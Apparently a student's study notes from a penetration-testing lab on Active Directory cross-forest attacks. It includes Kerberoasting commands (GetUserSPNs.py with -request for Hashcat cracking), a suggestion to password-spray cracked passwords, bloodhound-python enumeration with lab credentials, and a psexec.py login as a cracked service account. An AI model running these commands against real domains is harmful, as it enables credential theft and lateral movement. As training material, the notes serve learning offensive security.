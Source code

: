 # Cross-Forest Kerberoasting
---
## Using GetUserSPNs.py
- `GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley`
- Rerunning the command **with the `-request` flag added gives us the TGS ticket**. 
- We **could also add `-outputfile <OUTPUT FILE>` to output directly into a file that we could then turn around and run Hashcat against.**

## Using the -request Flag
- `GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  `
- ![[Pasted image 20250817062814.png]]

- ==**Note:**== Suppose we can Kerberoast across a trust and have run out of options in the current domain. 
	- In that case, it could also be worth attempting a single password spray with the cracked password, as there is a possibility that it could be used for other service accounts if the same admins are in charge of both domains. Here, we have yet another example of iterative testing and leaving no stone unturned.

# Hunting Foreign Group Membership with Bloodhound-python
- As noted in the last section, **we may, from time to time, see users or admins from one domain as members of a group in another domain.**
- Since **==only `Domain Local Groups` allow users from outside their forest==**, it is **not uncommon to see a highly privileged user from Domain A as a member of the built-in administrators group in domain B** when dealing with a bidirectional forest trust relationship.

- In this case, **we would need to edit our `resolv.conf` file to run this tool since it requires a DNS hostname for the target Domain Controller instead of an IP address.**

## Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf
- ![[Pasted image 20250817063107.png]]

## Running bloodhound-python Against INLANEFREIGHT.LOCAL
- `bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2`

## Compressing the File with zip -r
- `zip -r ilfreight_bh.zip *.json`

## Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf
- ![[Pasted image 20250817063142.png]]

## Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL
- ` bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2`


- After **uploading the second set of data (either each JSON file or as one zip file), we can click on `Users with Foreign Domain Group Membership` under the `Analysis` tab and select the source domain as `INLANEFREIGHT.LOCAL`**. 
- Here, we will **see the built-in Administrator account for the INLANEFREIGHT.LOCAL domain is a member of the built-in Administrators group in the FREIGHTLOGISTICS.LOCAL domain** as we saw previously.
	- ![[Pasted image 20250817063236.png]]

# LABS
---
- Login as kerberoasted user:
	- `psexec.py FREIGHTLOGISTICS.LOCAL/sapsso:'pabloPICASSO'@172.16.5.238`